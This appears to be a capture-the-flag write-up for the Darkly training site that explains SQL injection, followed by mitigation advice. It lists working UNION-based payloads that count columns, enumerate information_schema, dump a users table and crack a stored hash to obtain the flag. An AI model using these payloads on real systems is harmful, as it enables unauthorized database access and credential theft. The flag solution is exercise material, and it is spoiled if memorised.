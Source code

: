 # SQL Injection - Members

## Definition

Listed among the OWASP top 10 Web Application Security, an injection "occur when untrusted data is sent to an interpreter as part of a command or query. The attacker’s hostile data can trick the interpreter into executing unintended commands or accessing data without proper authorization." (OWASP)

More precisely an SQL injection will trick an SQL interpreter.

## Some use cases

* accessing sensitive data and stealing / corrupting / deleting 
* injecting data
* taking host over
* denial of service

## Exploit on Darkly

### Context
On the `Members` part of the site we are asked to enter a member `ID`. The query outputs 3 fields:
	* the `ID` we made the query on
	* `First Name`
	* `Surname`

### Solution
As there is a potential SQL injection weakness, we do the following:

1. Trying to know how many columns there are in the original query (see below for the explanation about those commands): 
	* `1 UNION SELECT 1` outputs `The used SELECT statements have a different number of columns`
	* `1 UNION SELECT 1, 2` works fine so we guess there are two columns

2. Get the tables schema and names:
	* `1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables`

3. Get the tables columns:
	* `1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns`

4. Combining all the information we got from those queries, we discover that there is a `users` table with some potentially interesting columns:
	* `1 AND 1=2 UNION SELECT first_name, last_name FROM Member_Sql_Injection.users` outputs, for one of the users, `Flag` and `GetThe`
	* `1 AND 1=2 UNION SELECT countersign, commentaire FROM Member_Sql_Injection.users` outputs, for that same user, `5ff9d0165b4f92b14994e5c685cdce28` and `Decrypt this password -> then lower all the char. Sh256 on it and it's good !`

5. Following the instructions above:
	* we decrypt the hash on [dcode](https://www.dcode.fr/fonction-hash#f0), what outputs `FortyTwo`
	* on the same website, we hash (shasum 256) `fortytwo`, what outputs `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`


### More details about the SQL commands

* `UNION` is a command that allows to concatenate the results of two different queries. The two queries must have the same number of columns
* `AND 1=2` is a condition that makes the first query always `false`: it won't output anything and we will gain readability

## Some ways to avoid it

* never trust the user inputs : validate / filter / sanitize the data sent to the site:
	* in our example, check that the user input is only an integer
	* for other queries (for example involving strings), escape all the special chars
	* set a whitelist of accepted characters
* in case the injection succeeds:
	* use control commands like `LIMIT` in SQL
	* use principle of least privilege